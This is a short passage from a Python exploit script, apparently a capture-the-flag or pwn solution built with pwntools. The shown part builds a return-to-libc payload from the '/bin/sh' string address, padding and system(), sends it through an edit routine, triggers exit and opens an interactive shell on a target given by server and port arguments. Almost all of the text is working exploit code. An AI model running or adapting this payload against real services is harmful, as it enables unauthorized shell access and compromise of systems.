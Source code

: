 ``` python
    payload += p64(libc + next(lib.search(b"/bin/sh")))
    payload += b"C" * 8
    payload += p64(libc + lib.symbols['system'])
    edit(s, 'u', [0, 2, 1], 'e', payload)

    # exit
    s.sendline(b"0")

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```